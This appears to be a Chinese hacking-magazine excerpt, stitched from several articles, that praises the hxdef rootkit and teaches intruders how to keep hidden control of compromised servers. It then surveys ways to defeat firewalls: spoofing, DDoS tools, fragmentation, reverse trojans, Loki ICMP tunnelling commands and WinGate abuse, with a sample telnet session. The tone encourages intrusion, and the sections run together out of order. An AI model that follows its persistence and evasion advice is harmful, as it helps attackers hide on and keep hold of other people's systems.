| 查杀难度 | ★★★★★（文中称“全部五星”） |

现在最新版本的hxdf是1.0.0，包含两个关键程序，配置文件ini较复杂，主要模块包括[Hidden Table]、[Root Processes]、[Hidden Services]、[Hidden RegKeys]、[Hidden RegValues]、[Startup Run]、[Free Space]、[Hidden Ports]、[Settings]，对应隐藏文件/目录、进程、服务、注册表键值、启动项、磁盘剩余空间、端口及后门设置等功能。

- 可以实现正常系统TCP端口通信（如80等）。
- 能得到简单的系统shell。
- 可隐藏端口，适配非常规端口通信。
- 可隐藏后门可见对象，如文件、服务、注册表键等。

虽然我们说起来是一句话，相信识货的朋友应该能发现这中间NB的地方！

（5）史上最经典后门思维，配合其他扩展型后门使用，效果好得出乎你的意料！（这是后面的内容，我们马上讲到）。

抛开其他不讲，系统中安装了这样的root kit，你通过普通的查杀途径根本检测不到这个程序，这点就非常值得我们注意了！试想一个在你服务器上运行的后门，你连看都看不到它，别说查杀了！

> 由于此后门危害太大，所以编辑特别在此提醒操作者一定慎重，喜欢研究后门程序的朋友可以自己去研究，不过千万注意不要误运行了程序，查杀和清除是非常麻烦的事！直接重新安装系统吧！

### 经典后门思维

现在很多朋友都在尝试着开发一些自己的后门程序，他们企图将非常多的功能加入到后门里，恨不得一个后门就是一个操作系统！——很明显，这样是不对的！因为一个好的后门，能实现非常单一的功能就够了，它不是给你控制服务器的，而是给你在丢掉服务器控制方法的时候用来再次控制服务器的！所以，不要经常使用后门程序，当然也不要让你的后门程序太大。

所有网络安全工具都存在一个问题——隐藏！现在随着广大网友安全意识的提高，杀毒软件、系统安全保护程序这些东西再不是“珍品”了，所以，就算你的后门程序能实现两万个功能，但是很容易就被杀毒软件查杀的话，那也是白搭！换句话说，如果别人能很方便地看看进程、查查注册表、看看端口就能查出系统有问题的话，你这个后门也就算不上好了！所以记住：隐藏才是最重要的！

很多朋友都喜欢使用某个功能很强大的后门程序来控制服务器，虽然很隐蔽，但一旦被杀，那也就只有望着服务器哭了；其实只要我们稍微放宽思路就能解决这样的问题：嵌套使用互补的后门程序！这样一旦一个后门暴露，另一个后门或者几个后门依然在服务器上，通过其他依然可以控制服务器——这点说起来很简单，里面涉及到很多入侵中的经验和方法，也涉及到root kit，后文我们会讲到。

对现在的网络来说，如果一个网络安全工具被公布，那么在很短的时间内这个程序将被安全爱好者传播到网络的任何一个地方！很明显，这样的程序存活期很短，不出几天就被查杀了，所以，本文列举的所有程序都可以在网络上找到（光盘上也有收录），只是给大家提供一种比较好的思路和介绍，很多好的后门是私人使用的。希望大家通过自己的学习也能写出自己的优秀后门！

通过上面的讲解，相信大家对现在主流的后门程序都有了一定程度的了解；由于篇幅关系，本文不可能一个接一个实际地去讲解用法和查杀，相信那样读者看也无聊，编辑审稿后也不能刊登了，具体的使用方法还得靠各位去摸索，下面我们说说经典后门的几个个人体会。首先拍拍wf的马屁……

上面说的那句话：“兄弟们千万不要拘泥于思维的定式，要知道安全最重要的就是思维的锻炼和意识的培养，为了锻炼大家的思维能力，友情提醒一下大家，我们在关卡中有很多的陷阱哦！千万不要被表面的现象迷惑了！”把这句话放到网络入侵和攻击中，很多思维被发散出来，那是整体层次的提高！

就拿我们的后门这方面来讲，同样是上面几个功能强大、隐藏性好的后门，为什么你装在肉鸡上，不出三天就被查杀了？而别人装上就一直用得好好的呢？这其中其实就是思维转换重要性的体现，下面我们将具体说说后门程序如何才能做到好的思维转换和特点利用，先来看看普通网友的误区。

- 普通安全爱好者都能通过常见的系统漏洞或者其他途径入侵服务器，然后上去就是新建一个账户，直接添加到管理员权限，有点意识的还能在账户后面加上一个`$`让别人无法在cmd发现，然后再通过3389、23控制服务器……这样的方式很容易被检查关键账户时发现。
- 控制服务器 -> 上传后门 -> 开放特定端口 -> 利用后门控制服务器；中间通过`findpass`之类工具得到管理员密码并开放3389等服务。这样的链路同样很容易通过`netstat -an`暴露连接。
- 克隆系统内置账户并使用它来登录服务器，这同样不是一个可取的方法，通常存活时间很短。

上面只是一些比较低端的错误，相信大家在看了此文后不会再犯这样的错误了！下面我们说说常见的比较安全的入侵后控制肉鸡的办法……

普通的入侵过程中，3389当然是大家最喜欢的控制方式，那为什么就只用3389来单纯控制服务器呢？当别人关掉3389后你怎么控制呢？所以需要后门。那安装上普通的经典后门，为什么我的肉鸡还是在很短的时间内飞掉呢？——请注意：任何一个系统管理员都不是白痴！不管你多“黑”，你远程控制服务器总没有别人物理接触来得方便吧！逼不得已人家拔掉网线、格式化硬盘总能让你不能控制了吧？！所以，后门的隐藏性是非常重要的，要让管理员无法发现系统中有后门就是非常重要的了！

一个好的后门，能实现单一的功能就行了，一定不要经常使用你的后门程序来控制肉鸡，这样你想肉鸡不飞都困难。比较好的方法是：

- 3389/23 + 扩展型后门 + rootkit

这是到目前为止最经典的一种后门搭配方式，它几方面的优点显而易见：对方发现有不明IP连接的时候肯定会检查系统问题，改system密码、清理账户是不可避免了，进而管理员会对系统的漏洞进行一次常规的升级和检测，补上最开始被我们入侵的漏洞，这样如果没有后门，再进来就很难了。

刘流：自从Internet快速发展以来，攻击与反攻击之间的矛盾也显露无遗……防火墙在攻击和防护中则占据着非常重要的作用……这样的对抗带来了攻防双方技术的不断进步！

## 挑战安全专家

### ——攻破个人防火墙

文 / 安全天死

### tips：什么是防火墙？

防火墙是采用综合的网络技术设置在被保护网络和外部网络之间的一道屏障，用以分隔被保护网络与外部网络系统，防止发生不可预测的、潜在破坏性的侵入……它是提供信息安全服务、实现网络和信息安全的基础设施。

是这样的：

- 包过滤防火墙
- 状态检查的包过滤防火墙
- 应用层代理的防火墙

看着其工作拓扑图（图1）：



图1

### 防火墙的基本原理

要攻击防火墙必须对防火墙的原理有一定的了解。防火墙现在有3类，经过了总共6代的发展……

通常这样的情况下管理员会考虑系统中是不是存在后门……所以这里一定要选择一些比较难查杀或者是加过壳的后门……线程插入方式是比较难被杀掉的。

后门程序单一使用能实现的……如果这样控制的肉鸡都飞掉了……免得惹火上身哦！

在这样的基础上，如果他发现系统中某个程序总是在对网络连接……这里就需要使用rootkit了！

如果从系统级隐藏掉服务名、进程、端口、注册表值、启动项目、程序名……而这点，才是后门程序的精华所在：隐藏！

> **编后：**  
> 看了上面的文章，说实话，刘流心中很不安宁……一个好的网络管理员首先就要掌握很多攻击和入侵的方法，不然很小一个疏忽就能让他威风扫地！本文从技术上讲比较适合初、中级读者阅读……不要等了，自己去做实验吧！

可见防火墙在一个网络中的安全地位，防火墙一旦被攻破将对企业和个人造成严重的安全问题。那么攻击防火墙就首先需要知道防火墙自身的机制。控制进出数据包就是防火墙的核心，防火墙主要通过这个访问控制表来判断，它的形式一般是一连串的如下规则：

- `accept from 源地址,端口 to 目的地址,端口 采取的动作（允许数据包进入）`
- `deny .........（拒绝数据包进入）`
- `nat ..........（网络地址转换）`

防火墙在网络层（包括以下的链路层）接收到网络数据包后，就从上面的规则列表一条一条地匹配，如果符合就执行预先安排的动作了！如丢弃包，但不同的防火墙在判断攻击行为时，有实现上的差别。

### tips：什么是访问控制列表？有什么作用？

访问控制列表（Access Control List，ACL）是路由器接口的指令列表，用来控制端口进出的数据包。访问列表（access-list）就是一系列允许和拒绝条件的集合，通过访问列表可以过滤发进和发出的信息包请求，实现对路由器和网络的安全控制。路由器一个一个地检测包与访问列表的条件，在满足第一个匹配条件后，就可以决定路由器接收或拒收该包。ACL适用于所有的被路由协议，如IP、IPX、AppleTalk等。ACL的定义也是基于每一种协议的。如果路由器接口配置成为支持3种协议（IP、AppleTalk以及IPX）的情况，那么用户必须定义3种ACL来分别控制这3种协议的数据包。

- 访问控制列表有以下作用：
- ACL可以限制网络流量，提高网络性能。例如，ACL可以根据数据包的协议，指定数据包的优先级。
- ACL提供对通信流量的控制手段。例如，ACL可以限定或简化路由更新信息的长度，从而限制通过路由器某一网段的通信流量。
- ACL是提供网络安全访问的基本手段。如图1所示，ACL允许主机A访问人力资源网络，而拒绝主机B访问。
- ACL可以在路由器端口处决定哪种类型的通信流量被转发或被阻塞。例如，用户可以允许E-mail通信流量被路由，拒绝所有的Telnet通信流量。

## Internet防火墙常用攻击办法

由于防火墙的特性，所以防火墙可以分为软件式防火墙、操作系统式防火墙和硬件芯片类防火墙。我们在谈到攻击的时候都会对它们有涉及。

## 1. IP欺骗攻击技术

很显然，防火墙是通过访问策略来控制数据包，再加上防火墙内部的计算机是很脆弱的，所以如果能欺骗防火墙使其源地址为防火墙信任的IP地址，目的地址为防火墙内部的计算机，那么我们的攻击成功的机会就大了，否则数据包还没进入就被拦截了。

可是，如果防火墙能结合接口、地址来匹配，这种攻击就不能成功，像这类攻击的工具很多，如ipspoof、zap、WinGate Spoofing等（图2）。



## 2. DoS拒绝服务攻击

防火墙可不是一攻就破的东西，攻击了半天失败了怎么办呢？我们还可以采取DoS（拒绝服务攻击）法来耗尽防火墙的带宽。就好比Windows多开点socket就会耗尽资源一样；简单点的防火墙从不跟踪TCP的连接状态，通过Syn、fin等连续攻击就会攻死防火墙，导致内外服务完全阻塞。

幸运的是我们也许可以在防火墙处理无用连接的同时发送对内网的攻击数据包，像这样的例子不是很多吗？Cisco FWSM防火墙模块就存在这样的远程拒绝服务攻击漏洞：

CSCe b16356（HTTP Auth）漏洞：传递使用TACACS+或RADIUS验证的HTTP Auth请求，可使Cisco FWSM由于发送缓冲区溢出崩溃并重载。这个请求可以由用户通过发起FTP、TELNET或者HTTP连接而初始化。如果用户名和密码被指定的TACACS+或RADIUS服务器验证通过，Cisco FWSM才允许通信通过。

CSCe b88419（SNMPv3）漏洞：当Cisco FWSM模块上配置`snmp-server host <if_name> <ip_addr>`或`snmp-server host <if_name> <ip_addr> poll`时，处理接收到的SNMPv3消息时可使Cisco FWSM崩溃，产生拒绝服务。

通过提升攻击的范围，我们可以制造DDoS攻击，意思就是分布式拒绝服务攻击。提高了被攻击的范围，那么受害方的防火墙将承受很大的数据流冲击。像这类工具有国产很出名的DDOS-Fucknet，它包含下面的攻击方式：

- ICMP攻击：报文定在1k（这个就是很著名的ping of death）。
- UDP攻击：报文定在1k。
- TCP类攻击：其一比如有Synflood（也就是类型一101），Synflood(2)加了一个urg紧急数据标识（也就是类型二101），以及各种标识置位。
- DNS攻击：其方式是模拟一次合法的DNS请求包，且伪源IP，猛烈flood受害主机DNS服务；向受害主机以每秒1万到2万的速度解析各种域名，使其瘫痪。

> 刘流：我们收集了一个关于DDoS的录像在附带光盘里面，大家可以看看这种攻击方式。

回头再看看IP协议中的UDP协议，UDP协议常常被管理员忽视，但是通过UDP packet sender utility，我们可以发送……UDP packet 进行拒绝服务攻击。它可以指定目标主机的 IP 和端口，并且攻击报文可以利用文本、随机字节和数据文件等方式组成。看看我们具体的攻击例子吧（图3）。



图3

与此同时，我们到其他的计算机上进行 ping 测试（图4）。



图4

我们发现此时对方的计算机在网络中已经变得不可用了！厉害吧！

#### 3. 分片攻击法

这种攻击的原理是：在 IP 的分片包中，所有的分片包用一个分片偏移字段标志分片包的顺序，但是，只有第一个分片包含有 TCP 端口号的信息。当 IP 分片包通过分组过滤防火墙时，防火墙只根据第一个分片包的 TCP 信息判断是否允许通过，而其他后续分片不作防火墙检测，直接让它们通过。这样，攻击者就可以通过先发送第一个合法的 IP 分片，骗过防火墙的检测，接着封装了恶意数据的后续分片包就可以直接穿透防火墙，直接到达内部网络主机，从而威胁网络和主机的安全。受该类攻击的防火墙也很多，大家可以看看“SuperStack3”防火墙。SuperStack3 防火墙内容过滤器存在着分片过滤漏洞，具体的测试过程可以看看下面的介绍。

重装分片的包，因此，内网的用户可以通过提交分片形式的请求而绕过内容过滤器的访问规则。如攻击者通过浏览器浏览被规则设置不能访问的 blockedsite.com，很明显会被 3COM 内容过滤器阻挡，但是，如果攻击者通过 telnet 方法连接目标 IP 和 80 端口，然后构建如下 HTTP 请求：

```txt
C:\>telnet blockedsite.com 80
GET / HTTP/1.1
Host: blockedsite.com
```

由于 telnet 是基于行形式的，因此过滤器不能正确检查包含单个字符的合法数据的包。又由于服务器的回复 3COM WEB 内容过滤是不进行检查的，所以可以绕过访问规则设置，访问受限资源。

#### 4. 木马攻击法

木马攻击法的原理很简单，就是需要内网的用户安装一个木马，然后在内部对防火墙的安全规则进行重新设置。有的防火墙很智能，它会屏蔽到常用的木马端口。这样的话我们需要的就是利用外部的 80 或者 53 端口作“反弹防火墙”的目的端口。反弹木马总的来说还是很好找吧，像什么网络神偷、ICMP 精灵等等。顺便提一下，ICMP 木马其实也是利用了 ICMP 协议来穿透防火墙的。防火墙如果对外没有屏蔽掉 ICMP 协议的话，那么在内网向外杜绝 ICMP 木马就是不可能的事情了，这几个木马也是很多人用来绕过防火墙的办法。

### 有源防火墙的反击术

稍微先进一点的就要属带有攻击状态检测的包过滤防火墙了，这类防火墙有点类似于我们的 IDS（入侵侦测系统）。一句话，状态检测就是从 TCP 连接的建立到终止都跟踪检测的技术。原先的包过滤，是拿一个一个单独的数据包来匹配规则的。可是我们知道，同一个 TCP 连接，它的数据包是前后关联的，先是 SYN 包 > 数据包 > FIN 包，数据包的前后序列号是相关的。如果割裂这些关系，单独地过滤数据包，很容易被精心伪造的攻击数据包欺骗！如 nmap 的攻击扫描，就有利用 SYN 包、FIN 包、RESET 包来探测防火墙后面的网络。

相反，一个完全的状态检测防火墙，它在发起连接就判断，如果符合规则，就在内存登记了这个连接的状态信息（地址、port），后续的属于同一个连接的数据包，就不需要再检测了，直接通过。而一些精心伪造的攻击数据包由于没有在内存登记相应的状态信息，都被丢弃了。这样这些攻击数据包，就不能绕过防火墙了。

说状态检测必须提到动态规则技术。在状态检测里，采用动态规则技术，原先高端口的问题就可以解决了。实现原理是：平时，防火墙可以过滤内部网络的所有端口（1-65535），外部攻击者难于发现入侵的切入点；可是为了不影响正常的服务，防火墙一旦检测到服务必须开放高端口时，如（FTP 协议、IRC 等），防火墙在内存就可以动态地添加一条规则打开相关的高端口。等服务结束后，这条规则就又被防火墙删除。这样既保障了安全，又不影响正常服务，速度也快。一般来说，完全实现了状态检测技术的防火墙，智能性都比较高，一些扫描攻击还能自动反应。因此，攻击者要很小心才不会被发现。但是，也有不少的攻击手段对付这种防火墙的。

#### 1. 协议隧道攻击

协议隧道的攻击思想类似于 VPN 的实现原理，攻击者将一些恶意的攻击数据包隐藏在一些协议分组的头部，从而穿透防火墙系统对内部网络进行攻击。例如：许多简单地允许 ICMP 回射请求、ICMP 回射应答和 UDP 分组通过的防火墙，就容易受到 ICMP 和 UDP 协议隧道的攻击。Loki 和 lokid（攻击的客户端和服务端）是实施这种攻击的有效工具。

在实际攻击中，攻击者首先必须设法在内部网络的一个系统上安装上 lokid 服务端，而后攻击者就可以通过 loki 客户端将希望远程执行的攻击命令（对应 IP 分组）嵌入在 ICMP 或 UDP 包头部，再发送给内部网络服务端 lokid，由它执行其中的命令，并以同样的方式返回结果。由于许多防火墙允许 ICMP 和 UDP 分组自由出入，因此攻击者的恶意数据就能附带在正常的分组中，绕过防火墙的认证，顺利地到达攻击目标主机。

```txt
lokid -p -I -v1
loki 客户端启动示例：
loki --d172.29.11.191(攻击目标主机)-p -I -v1 -t3
```

这样，loki 和 lokid 就联合提供了一个穿透防火墙系统访问目标系统的一个后门。

#### 2. 利用 FTP-PASV 绕过防火墙认证的攻击

FTP-PASV 攻击是针对防火墙实施入侵的重要手段之一。目前很多防火墙不能过滤这种攻击手段。如 CheckPoint 的 firewall-1，在监视 FTP 服务器发送给客户端的包的过程中，它在每个包中寻找“227”这个字符串。如果发现这种包，将从中提取目标地址和端口，并对目标地址加以验证。通过后，将允许建立到该地址的 TCP 连接。攻击者通过这个特性，可以设法连接受防火墙保护的服务器和服务。

### 面对操作系统和软防火墙的攻击办法

没有无坚不摧的硬件，更没有固若金汤的软件。很多网络管理员喜欢拿一台计算机装 2 个网卡来充当操作系统级别的防火墙，然后通过几个简单的路由规则来实现两个网段的访问。大家都知道 Windows 系统本身就存在很多漏洞。一旦我们把操作系统级别的防火墙攻破，那么我们攻击内部的计算机简直是太容易了。

像攻击操作系统的软件实在太多了，比如 DCOM 溢出、Messenger 溢出……太多了。

## 攻击实际例子：

扫描一段网络，发现一台 Windows 2000 的防火墙，但是由于外网安全做得不是很好，我们发现其开了 139 端口，尽管它的 139 需要密码验证，但我们可以瞬间让其崩溃掉（图5）。



图5

这样“kill”一样，对方内网服务就全部不能用了，比直接攻击来得简单多了！

软防火墙其实也充当了部分软路由的功能，小的软件像 WinGate 就是我们常见的东西。导致 WinGate 安全漏洞的原因大多数是管理员没有根据网络的实际情况对 WinGate 代理防火墙软件进行合理的设置，只是简单地从缺省设置安装完毕后就让软件运行，这就给攻击者可乘之机。看看 WinGate 都存在哪些漏洞吧。

#### 1. 非授权 Web 访问

某些 WinGate 版本（如运行在 NT 系统下的 2.1d 版本）在误配置情况下，允许外部主机完全匿名地访问因特网。因此，外部攻击者就可以利用 WinGate 主机来对 Web 服务器发动各种 Web 攻击（如 CGI 的漏洞攻击等）。同时由于 Web 攻击的所有报文都是从 80 号 TCP 端口穿过的，因此很难追踪到攻击者的来源。

- 以一个不会被过滤掉的连接（譬如拨号连接）连接到因特网上。
- 把浏览器的代理服务器地址指向待测试的 WinGate 主机。
- 如果浏览器能访问到因特网，则 WinGate 主机存在非授权 Web 访问漏洞。

#### 2. 非授权 Socks 访问

在 WinGate 的缺省配置中，Socks 代理（1080 号 TCP 端口）同样存在安全漏洞。与打开的 Web 代理（80 号 TCP 端口）一样，外部攻击者可以利用 Socks 代理访问因特网。

#### 3. 非授权 Telnet 访问

它是 WinGate 最具威胁的安全漏洞。通过连接到一个误配置的 WinGate 服务器的 Telnet 服务，攻击者可以使用别人的主机隐藏自己的踪迹，随意地发动攻击。

- 检测 WinGate 主机是否有这种安全漏洞的方法如下：
  1. 使用 telnet 尝试连接到一台 WinGate 服务器。

```txt
[root@happy /tmp]# telnet 172.29.11.191
Trying 172.29.11.191...
Connected to 172.29.11.191
]escapecharacters]
Wingate>10.50.21.5
Connected to host10.50.21.5. Connected
SunOS5.6
Login:
```

  2. 如果接收到如上的响应文本，那就输入待连接到的网站。
  3. 如果看到了该新系统的登录提示符，那么该服务器是脆弱的。

另外 WinGate 的转发器还存在缓冲区拒绝服务攻击。攻击办法很简单，我们可以 telnet 到 WinGate 的 2080 端口发送 2000 个字符，呵呵，WinGate 就真的“die”了。

如今网络上出现了新一代的智能防火墙，它的出现预示着攻击者不可能再通过简单办法来突破防火墙。但是就黑客攻击防火墙的过程上看，大概可以分为下面 3 种：

1. 探测攻击：探测在目标网络上安装的是何种防火墙系统，并找出允许哪些服务。
2. 地址欺骗、TCP 序号攻击等手法绕过认证机制，从而对防火墙和内部网络破坏。
3. 寻找并利用防火墙系统实现和设计上的安全漏洞，进行针对性攻击。

### 总结

一直以来，黑客都在研究攻击防火墙的技术和手段，攻击的手法和技术越来越智能化和多样化……如果可以综合上面 3 种方式，再利用各种防火墙自身的硬件特性，要想撬开你的“墙”是不难的！各位认为防火墙完美无缺的朋友可要小心了！

刘流 2003 年年中到 2004 年年初是国内网络安全最“疯狂”的时候，Windows 系统远程溢出漏洞不断发布，Linux 内核漏洞的出现，Windows 2000 SP1 源代码的泄露……所有的一切都带来了网络的不稳定因素，各种各样的攻击在网络上蔓延着，服务器被黑、数据丢失、机密信息泄露已经是普通网民司空见惯的事情了——就在大家都对系统严重漏洞津津乐道的时候，一种新的技术开始在网络上流行起来，它不需要使用者有高深的编程能力，不需要学习者有很强的基本功底，更不需要使用纷繁复杂的各类攻击程序，它只需要简单地了解最最基本的数据存储知识和非常少量的脚本编写知识就可以实现了——而且最让人恐慌的是：保守估计，国内有 60% 以上的脚本站点存在这样的漏洞！入侵者可以非常方便地窃取数据或者突破各类 VIP、会员限制！它就是——脚本注入！

## 脚本注入

### 其实很简单

